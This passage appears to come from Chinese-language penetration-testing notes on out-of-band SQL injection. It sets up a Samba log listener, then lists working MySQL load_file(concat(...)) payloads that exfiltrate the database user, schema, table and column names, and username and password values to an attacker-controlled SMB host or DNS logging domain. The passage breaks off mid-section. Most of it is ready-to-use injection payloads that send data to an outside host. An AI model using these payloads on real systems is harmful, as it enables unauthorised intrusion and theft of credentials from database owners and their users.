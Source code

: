   ```
  1. 安装smb服务
  	yum install samba -y
  2. 修改配置文件
  	vim /etc/samba/smb.conf
  3. 修改samba日志路径
  	vim /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  	tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

* payload

  ```
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  1' and load_file(concat('\\\\192.168.172.130\\',(select group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```


##### c.HTTP数据外带

#### (3). 使用

* 以DNS数据外带为例

* ```
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc')	# /abc指定外部路径
  ```

* 实例

```
1.获取数据库名
select * from users where id=1 and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh/abc'));

2.获取表名
select * from users where id=1 and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh/abc'));

3.获取字段名
select * from users where id=1 and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));

4.获取字段数据
select * from users where id>0 and load_file(concat('//',(select group_concat(concat_ws('_',id,username,password) separator '__') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
```

#### (4). 基本步骤

##### a.获取数据库名

```
1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### b.获取表名

```
1' and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### c.获取字段名
```